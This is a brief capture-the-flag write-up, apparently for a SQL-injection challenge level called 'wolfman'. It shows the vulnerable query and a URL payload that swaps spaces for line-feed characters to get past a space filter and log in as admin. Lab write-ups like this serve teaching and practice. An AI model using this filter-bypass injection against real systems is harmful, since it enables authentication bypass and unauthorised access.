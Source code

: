 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 5
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/48346668-4ade-4937-98dc-cd3160cfa815)

We are provided with the SQL query:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes all space characters. In order to get around this, we need to use the Line Feed (`%0A`) character.

If we provide the following URI parameter:

```
?pw='%0AOR%0Aid='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''
OR
id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ea2c6e8d-c9e1-4e5b-80bd-2dfeb29f1c0d)

